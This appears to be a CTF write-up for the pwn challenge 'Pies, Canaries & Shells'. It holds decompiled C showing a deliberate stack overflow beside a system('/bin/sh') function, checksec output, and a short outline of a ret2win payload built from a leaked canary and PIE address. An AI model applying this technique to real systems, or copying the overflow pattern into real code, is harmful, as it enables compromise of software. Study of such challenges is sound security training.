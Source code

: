 void show_slips(void)

{
  long lVar1;
  undefined8 uVar2;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  cprintf(5,&DAT_00102308);
  cprintf(4,"You unfold the first slip of paper. Written in an elegant script:\n");
  cprintf(3,&DAT_00102393,print_title);
  uVar2 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  cprintf(5,&DAT_001023b0);
  cprintf(4,"The second slip contains a mysterious sequence of characters:\n");
  cprintf(3,&DAT_00102437,uVar2);
  cprintf(6,"You stare at these cryptic pieces of information, trying to make sense of them.\n");
  cprintf(6,"What could a pie location and a canary possibly have to do with finding a shell?\n\n");
  cprintf(0xb,"Press Enter to continue your quest...");
  getchar();
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void write_notes(void)

{
  long in_FS_OFFSET;
  undefined local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  cprintf(9,&DAT_00102528);
  cprintf(8,"You decide to record your thoughts in your treasure hunting journal.\n");
  cprintf(8,"Perhaps writing down the right sequence will lead you to the shell...\n\n");
  cprintf(3,"Write your notes: ");
  __isoc99_scanf(&DAT_00102613,local_58);
  cprintf(10,"\nYou finish writing and close your journal. Something feels different now...\n");
  cprintf(0xb,"Press Enter to continue...");
  getchar();
  getchar();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void shell(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  system("/bin/sh");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

undefined8 main(void)

{
  long lVar1;
  long in_FS_OFFSET;
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  print_title();
  cprintf(7,"As you walk along the shore searching for the legendary shell...\n\n");
  cprintf(2,"A mysterious stranger approaches you on the beach at sunset.\n");
  cprintf(2,"\"I hear you seek the legendary shell,\" he says, his face obscured by a hood.\n");
  cprintf(2,"\"Finding it requires... unconventional knowledge.\"\n\n");
  cprintf(2,"He hands you two slips of paper before vanishing into the mist.\n");
  cprintf(0xb,"Press Enter to examine the papers...");
  getchar();
  show_slips();
  write_notes();
  cprintf(7,"\nYou continue your journey along the shore, the puzzle of the pie and canary\n");
  cprintf(7,"still lingering in your mind. Perhaps the answer will come to you soon...\n\n");
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
┌──(.venv)─(kali㉿kali)-[~/…/events/cyberthon/online/Pies, Canaries & Shells]
└─$ checksec --file=pies_canaries_and_shells 

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH   Symbols         FORTIFY Fortified       Fortifiable FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   51 Symbols     No    0               2           pies_canaries_and_shells
                                                                     
┌──(.venv)─(kali㉿kali)-[~/…/events/cyberthon/online/Pies, Canaries & Shells]
└─$ python main.py      
Offset of print_title: 0x1539
Offset of shell:       0x14f8

╭───────────────────────────────────────────────────────────╮
│                                                           │
│  PIES, CANARIES, AND SHELLS                               │
│                                                           │
│  A peculiar tale of treasure hunting                      │
│                                                           │
╰───────────────────────────────────────────────────────────╯

As you walk along the shore searching for the legendary shell...

A mysterious stranger approaches you on the beach at sunset.
"I hear you seek the legendary shell," he says, his face obscured by a hood.
"Finding it requires... unconventional knowledge."

He hands you two slips of paper before vanishing into the mist.
Press Enter to examine the papers...

⊱ ───── The First Slip of Paper ───── ⊰

You unfold the first slip of paper. Written in an elegant script:
「 Pie Location: 0x560de619c539 」


⊱ ───── The Second Slip of Paper ───── ⊰

The second slip contains a mysterious sequence of characters:
「 Canary: 0xca2903d31a01d600 」

You stare at these cryptic pieces of information, trying to make sense of them.
What could a pie location and a canary possibly have to do with finding a shell?

Press Enter to continue your quest...

⊱ ───── Your Treasure Journal ───── ⊰

You decide to record your thoughts in your treasure hunting journal.
Perhaps writing down the right sequence will lead you to the shell...

Write your notes: 

Above is done after pressing enter twice as asked

Solution:

ROPgadget --binary pies_canaries_and_shells
![alt text](image.png)
Find ret gadget

payload is
buffer + stack canary + RBP (idk why) + RET gadget + ret address